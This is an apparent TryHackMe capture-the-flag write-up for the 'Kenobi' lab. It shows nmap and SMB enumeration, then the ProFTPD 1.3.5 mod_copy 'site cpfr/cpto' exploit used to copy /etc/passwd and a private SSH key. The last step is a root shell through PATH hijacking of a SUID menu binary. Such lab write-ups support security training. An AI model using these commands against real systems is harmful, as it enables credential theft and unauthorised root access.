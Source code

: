```yaml
---
title: "Kenobi"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-11-21 02:33:29 +05:30
categories: [Writeups, TryHackMe]
tags: [THM, ProFTPD, Knife]
render_with_liquid: false
---
```


## Enumeration

- `nmap -Pn -p- -A 10.10.114.180`

```
PORT      STATE SERVICE     REASON         VERSION
21/tcp    open  ftp         syn-ack ttl 60 ProFTPD 1.3.5
22/tcp    open  ssh         syn-ack ttl 60 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8m00IxH/X5gfu6Cryqi5Ti2TKUSpqgmhreJsfLL8uBJrGAKQApxZ0lq2rKplqVMs+xwlGTuHNZBVeURqvOe9MmkMUOh4ZIXZJ9KNaBoJb27fXIvsS6sgPxSUuaeoWxutGwHHCDUbtqHuMAoSE2Nwl8G+VPc2DbbtSXcpu5c14HUzktDmsnfJo/5TFiRuYR0uqH8oDl6Zy3JSnbYe/QY+AfTpr1q7BDV85b6xP97/1WUTCw54CKUTV25Yc5h615EwQOMPwox94+48JVmgE00T4ARC3l6YWibqY6a5E8BU+fksse35fFCwJhJEk6xplDkeauKklmVqeMysMWdiAQtDj
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBpJvoJrIaQeGsbHE9vuz4iUyrUahyfHhN7wq9z3uce9F+Cdeme1O+vIfBkmjQJKWZ3vmezLSebtW3VRxKKH3n8=
|   256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB22m99Wlybun7o/h9e6Ea/9kHMT0Dz2GqSodFqIWDi
80/tcp    open  http        syn-ack ttl 60 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/admin.html
111/tcp   open  rpcbind     syn-ack ttl 60 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      44864/udp6  mountd
|   100005  1,2,3      50049/tcp6  mountd
|   100005  1,2,3      54921/tcp   mountd
|   100005  1,2,3      57249/udp   mountd
|   100021  1,3,4      34301/udp   nlockmgr
|   100021  1,3,4      42343/tcp   nlockmgr
|   100021  1,3,4      45217/tcp6  nlockmgr
|   100021  1,3,4      52968/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn syn-ack ttl 60 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack ttl 60 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     syn-ack ttl 60 2-3 (RPC #100227)
33291/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
36651/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
42343/tcp open  nlockmgr    syn-ack ttl 60 1-4 (RPC #100021)
54921/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-11-21T07:00:52-06:00
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time:
|   date: 2021-11-21T13:00:52
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 4604/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57188/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 40874/udp): CLEAN (Failed to receive data)
|   Check 4 (port 43903/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 2h00m09s, deviation: 3h27m51s, median: 8s
```

### SMB

```
nmap -Pn -sV -p 139,445 --script=smb-os-discovery,'smb-vuln*','smb-enum*' 10.10.114.180
```

```
\\10.10.114.180\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
```

- `smbclient --no-pass \\\\10.10.114.180\\anonymous`
- `get log.txt`
- `cat log.txt`

```
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
```

- We got the path to SSH keys which will be useful later.

---

## Exploitation

- Google or searchsploit ProFTPd 1.3.5
- [ProFTPd 1.3.5 File Copy Exploit](https://www.exploit-db.com/exploits/36742)
- Everything copied to `/home/kenobi/share/` using FTP file copy exploit was accessible through `/anonymous` share using `smbclient`.

```
FTP Anonymous Login =>

ftp> site cpfr /etc/passwd
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/passwd
250 Copy successful

ftp> site cpfr /etc/samba/smb.conf
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/smb.conf
250 Copy successful

ftp> site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/id_rsa
250 Copy successful
```

- Then get these files from `/anonymous` share. 
- `smbclient --no-pass \\\\10.10.114.180\\anonymous`

```
smb:\> ls 
log.txt, passwd, id_rsa, smb.conf

smb:\> get id_rsa
```

- Change the permissions on `id_rsa` file.
- `chmod 600 id_rsa`
- `ssh -i id_rsa kenobi@10.10.114.180` 
- `whoami` <span class="fat-arrow">=></span> `kenobi`

---

## Privilege Escalation with PATH Manipulation 

- `find / -perm -u=s -type f 2>/dev/null`
- There is an odd looking `/usr/bin/menu` entry.
- `strings /usr/bin/menu` 

```
strings /usr/bin/menu

1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
```

- It is calling `curl`, `uname`, and `ifconfig` without absolute path.
- We can create a binary named as either of these 3 in `/tmp` and add it to path.
- `cp /bin/bash /tmp/curl` OR
- `echo "/bin/bash -p" > /tmp/curl`
- `export PATH=/tmp:$PATH`
- Now when `curl` is invoked without absolute path (`/usr/bin/curl`), it will be invoked from `/tmp/curl`

```bash
echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/
```

- `/usr/bin/menu` <span class="fat-arrow">=></span> Press 1 as it invoked `curl`
- We get a root shell
- `whoami` <span class="fat-arrow">=></span> `root`

